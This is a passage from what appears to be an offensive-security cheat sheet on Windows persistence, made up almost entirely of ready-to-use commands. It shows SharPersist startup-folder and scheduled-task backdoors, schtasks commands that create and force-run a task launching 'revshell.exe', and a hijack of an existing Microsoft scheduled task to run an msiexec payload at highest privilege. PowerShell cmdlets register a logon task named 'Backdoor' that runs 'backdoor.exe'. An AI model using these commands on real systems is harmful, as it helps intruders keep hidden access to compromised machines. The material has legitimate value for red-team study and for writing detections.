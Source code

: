 Using SharPersist

```powershell
SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add
```

### Scheduled Tasks User

* Using native **schtask** - Create a new task

    ```powershell
    # Create the scheduled tasks to run once at 00.00
    schtasks /create /sc ONCE /st 00:00 /tn "Device-Synchronize" /tr C:\Temp\revshell.exe
    # Force run it now !
    schtasks /run /tn "Device-Synchronize"
    ```

* Using native **schtask** - Leverage the `schtasks /change` command to modify existing scheduled tasks

    ```powershell
    # Launch an executable by calling the ShellExec_RunDLL function.
    SCHTASKS /Change /tn "\Microsoft\Windows\PLA\Server Manager Performance Monitor" /TR "C:\windows\system32\rundll32.exe SHELL32.DLL,ShellExec_RunDLLA C:\windows\system32\msiexec.exe /Z c:\programdata\S-1-5-18.dat" /RL HIGHEST /RU "" /ENABLE
    ```

* Using Powershell

    ```powershell
    PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe"
    PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta"
    PS C:\> $P = New-ScheduledTaskPrincipal "Rasta"
    PS C:\> $S = New-ScheduledTaskSettingsSet
    PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
    PS C:\> Register-ScheduledTask Backdoor -InputObject $D
    ```

* Using SharPersist

    ```powershell
    # Add to a current scheduled task
    SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add

    # Add new task
    SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add
    SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly
    ```
